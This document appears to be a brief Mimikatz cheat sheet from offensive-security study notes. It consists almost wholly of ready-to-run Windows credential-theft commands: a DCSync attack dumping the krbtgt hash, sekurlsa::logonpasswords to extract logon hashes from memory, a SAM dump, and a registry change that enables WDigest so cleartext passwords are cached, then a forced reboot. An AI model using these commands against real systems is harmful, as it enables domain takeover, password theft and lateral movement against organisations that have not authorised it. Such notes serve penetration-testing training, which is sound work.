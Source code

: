 
debug
```powershell-session
privilege::debug
```

dcsync attack
```powershell-session
PS C:\Tools> cd .\mimikatz\x64\
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt
```

Extract NTLM hashes for users on local host
```
privilege::debug 
sekurlsa::logonpasswords
```

Dump SAM
```
lsadump::sam
```

If password hash not crackable enable wdigest in registry
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1

Restart-Computer -Force
```

